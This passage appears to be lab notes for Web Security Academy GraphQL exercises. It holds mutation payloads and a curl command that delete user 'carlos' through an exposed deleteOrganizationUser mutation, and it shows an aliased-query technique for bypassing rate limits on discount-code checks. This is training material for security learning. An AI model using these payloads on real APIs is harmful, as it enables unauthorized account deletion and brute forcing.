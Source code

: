```
  "data": {
    "getUser": {
      "id": 3,
      "username": "carlos"
    }
  }
}
```
To delete the carlos user:
```
mutation {
    deleteOrganizationUser(input: DeleteOrganizationUserInput) {
        user {
            id
            username
        }
    }
}
```
```
mutation {
    deleteOrganizationUser(input: { id: 3 }) {
        user {
            id
            username
        }
    }
}
```
Command:
```
curl 'https://ID.web-security-academy.net/api?query=mutation%20%7B%0AdeleteOrganizationUser(input:%20%7B%20id:%203%20%7D)%20%7B%0Auser%20%7B%0Aid%0Ausername%0A%7D%0A%7D%0A%7D' \
-H "Cookie: session=..."
```
### Bypassing rate limiting using aliases

The simplified example below shows a series of aliased queries checking whether store discount codes are valid. This operation could potentially bypass rate limiting as it is a single HTTP request, even though it could potentially be used to check a vast number of discount codes at once.


```
query isValidDiscount($code: Int) {
    isvalidDiscount(code:$code){
        valid
    }
    isValidDiscount2:isValidDiscount(code:$code){
        valid
    }
    isValidDiscount3:isValidDiscount(code:$code){
        valid
    }
}
```
### Lab: Bypassing GraphQL brute force protections
